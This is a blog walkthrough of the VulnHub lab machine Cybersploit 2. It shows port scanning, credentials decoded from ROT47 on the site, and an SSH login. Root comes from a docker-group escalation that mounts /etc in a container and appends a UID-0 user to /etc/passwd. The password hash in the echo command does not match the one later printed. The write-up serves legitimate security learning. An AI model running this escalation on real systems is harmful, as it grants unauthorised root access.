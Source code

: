 +++ 
draft = false
date = 2020-07-24T17:38:12+01:00
title = "Cybersploit 2 CTF walkthrough"
description = "A walkthrough of the VulnHub CTF cybersploit 2"
slug = "" 
tags = []
categories = []
externalLink = ""
series = []
+++

[Cybersploit 2](https://www.vulnhub.com/entry/cybersploit-2,511/) is a fun boot2root on VulnHub. It's quite an enjoyable box, and whilst user is really rather easy, getting root is quite an interesting affair (at least I found it to be).

# Initial foothold
Let's scan the box and see what ports are open with `nmap -sC -sV -p- 192.168.123.131`:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-24 19:54 BST
Nmap scan report for 192.168.123.131
Host is up (0.0013s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 ad:6d:15:e7:44:e9:7b:b8:59:09:19:5c:bd:d6:6b:10 (RSA)
|   256 d6:d5:b4:5d:8d:f9:5e:6f:3a:31:ad:81:80:34:9b:12 (ECDSA)
|_  256 69:79:4f:8c:90:e9:43:6c:17:f7:31:e8:ff:87:05:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: CyberSploit2
MAC Address: 00:0C:29:22:79:4F (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.90 seconds
```
So we know we have a web server of sorts, and SSH for when we'll most likely get credentials. A quick search for OpenSSH 8.0 doesn't reveal anything particularly interesting, and this isn't the case with Apache either.

Here's port 80:

![Website screenshot](/img/cybersploit2/webserver.png)

Of particular interest was the source code, specifically `<!----------ROT47---------->  `. Let's see if that comes in use later...

```
    <!-- Optional JavaScript -->
    <!-- jQuery first, then Popper.js, then Bootstrap JS -->
    <script src="https://code.jquery.com/jquery-3.5.1.slim.min.js" integrity="sha384-DfXdz2htPH0lsSSs5nCTpuj/zy4C+OGpamoFVy38MVBnE+IbbVYUew+OrCXaRkfj" crossorigin="anonymous"></script>
    <script src="https://cdn.jsdelivr.net/npm/popper.js@1.16.0/dist/umd/popper.min.js" integrity="sha384-Q6E9RHvbIyZFJoft+2mJbHaEWldlvI9IOYy5n3zV9zzTtmI3UksdQRVvoxMfooAo" crossorigin="anonymous"></script>
    <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.5.0/js/bootstrap.min.js" integrity="sha384-OgVRvuATP1z7JjHLkuOU7Xw704+h835Lr+6QL9UvYjZE3Ipu6Tp75j7Bh/kR0JKI" crossorigin="anonymous"></script>
<!----------ROT47---------->
</body>
</html>
```

Of course I'm left wondering why on earth there was a list of usernames and passwords, and why the table haedings were messed up. But taking heed of our little comment, let's [decode the rot47-looking text](https://www.browserling.com/tools/rot47):
* Username: shailendra
* Password: cybersploit1

Naturally these credentials lend themselves well to SSH (`ssh shailendra@192.168.123.131`), as it all seems rather furtoutous.
```
The authenticity of host '192.168.123.131 (192.168.123.131)' can't be established.
ECDSA key fingerprint is SHA256:uGYzWYklxeL1iDjLGh5cLrkGjTgqAJfxn3mkDaZ7C7M.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.123.131' (ECDSA) to the list of known hosts.
shailendra@192.168.123.131's password: 
Last login: Wed Jul 15 12:32:09 2020
[shailendra@localhost ~]$ id
uid=1001(shailendra) gid=1001(shailendra) groups=1001(shailendra),991(docker) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

I'm not sure if I took a slight shortcut, but I have user and I don't see why we shouldn't use it. Running `dirb` on the site doesn't reveal any new directories really either.

# Getting root
First things first, let's see if we have sudo access:

```
[shailendra@localhost ~]$ sudo -l
[sudo] password for shailendra: 
Sorry, user shailendra may not run sudo on localhost.
[shailendra@localhost ~]$
```

A quick `uname -a` tells us we're on Linux 4.18. Whilst we certainly could exploit something, looking at hint.txt suggests there's more to the puzzle:

```
[shailendra@localhost ~]$ cat hint.txt
docker
```

Sure enough, `ps -aux | grep docker` confirms this. As it turns out, as long as we're in the docker group, we can basically look at any file we want by mounting stuff as volumes. Better yet, we can write to those files too! Now we can simply create our own priviledged user, add him to the passwd file.

```
[shailendra@localhost ~]$ openssl passwd -1 -salt bob
Password: 
$1$bob$b0O6CwHOcDlU/.Qo9HwnN/

[shailendra@localhost ~]$ docker run -v /etc/:/mnt -it alpine
/ # echo 'bob:$1$bob$IK8bdtW2k5Au4RL.2IcEt0:0:0::/root:/bin/bash' >> /mnt/passwd
/ # tail /mnt/passwd
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
polkitd:x:998:996:User for polkitd:/:/sbin/nologin
unbound:x:997:995:Unbound DNS resolver:/etc/unbound:/sbin/nologin
sssd:x:996:993:User for sssd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rngd:x:995:992:Random Number Generator Daemon:/var/lib/rngd:/sbin/nologin
centos:x:1000:1000:CentOs:/home/centos:/bin/bash
shailendra:x:1001:1001::/home/shailendra:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
bob:$1$bob$b0O6CwHOcDlU/.Qo9HwnN/:0:0::/root:/bin/bash
/ # exit

```

All that's left to do is login and claim victory.

```
[shailendra@localhost ~]$ su - bob
Password: 
Last login: Sat Jul 25 03:53:42 IST 2020 on pts/0
[root@localhost ~]# whoami
root
[root@localhost ~]# cat flag.txt
 __    ___   _      __    ___    __   _____  __  
/ /`  / / \ | |\ | / /`_ | |_)  / /\   | |  ( (` 
\_\_, \_\_/ |_| \| \_\_/ |_| \ /_/--\  |_|  _)_) 

 Pwned CyberSploit2 POC

share it with me twitter@cybersploit1

              Thanks ! 

```

Overall quite an enjoyable CTF. Although it was quite quick and had little depth it was still a
fun learning experience, and I hope you learnt a bit about Docker privilege escalation  along the
way :)
